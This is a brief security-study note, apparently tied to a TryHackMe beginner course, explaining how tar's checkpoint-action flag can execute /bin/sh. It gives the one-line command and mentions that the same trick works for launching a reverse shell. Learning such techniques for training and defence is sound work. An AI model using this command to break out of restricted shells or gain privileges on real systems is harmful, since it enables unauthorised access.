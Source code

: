 # Exploiting “tar”

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)

- - - -

👤 Nathan Acks  
📅 November 2, 2021
